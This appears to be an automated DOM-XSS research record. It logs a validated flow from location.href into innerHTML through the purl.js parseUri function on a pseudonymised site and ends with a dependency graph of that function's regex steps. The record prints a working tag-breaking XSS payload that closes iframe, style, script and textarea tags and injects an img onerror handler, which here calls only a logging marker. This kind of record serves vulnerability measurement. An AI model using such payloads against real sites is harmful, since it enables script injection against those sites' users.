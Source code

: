 // Finding: c6d5d950-84a7-4ad0-97de-6d0fff95a09e
// Finding.url: https://www.example330.com/web/en/pages/support/default.page##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7bbf0e39c6a84ba0bc63c3c01ea3b38e')><!--/*
// Finding.parentloc: https://www.example330.com/web/en/pages/support/default.page##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7bbf0e39c6a84ba0bc63c3c01ea3b38e')><!--/*
// Finding.domain: www.example330.com
// Finding.base_domain: example330.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: parseUri
// Sanitizer.location: https://www.example330.com/web/assets/js/purl.js - purl:207:19
// Finding.begin: 263
// Finding.end: 270
// Finding.original_uuid: 69aacb24-5b58-484e-a208-b2f92c6fd7c1
// Finding.TwentyFiveMillionFlowsId: 661257439
// Finding.script: https://www.example330.com/cwc/components/assets/scripts/cwc.js
// Finding.line: 13
// Exploit.uuid: 7bbf0e39-c6a8-4ba0-bc63-c3c01ea3b38e
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: e
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 72
// Exploit.replace_begin_url: 72
// Exploit.replace_end_url: 72
// Exploit.replace_begin_param: 3183
// Exploit.replace_end_param: 3183
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 894823599
// DepGraph.sanitizer_hash: 894823599

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURI"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="regex_exec"];
n4 [shape=box, label="RegExp: /^(?:(?![^:@]+:[^:@\/]*@)([^:\/?#.]+):)?(?:\/\/)?((?:(([^:@]*):?([^:@]*))?@)?([^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/"];
n5 [shape=box, label="Lit: 9"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="preg_replace"];
n8 [shape=box, label="RegExp: /^\/+|\/+$/"];
n9 [shape=box, label="Lit: "];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="split"];
n12 [shape=box, label="Lit: /"];
n13 [shape=box, label="Var: x"];
n14 [shape=box, label="Var: x"];
n15 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n13 -> n7;
n11 -> n12;
n11 -> n13;
n14 -> n11;
n15 -> n14;
}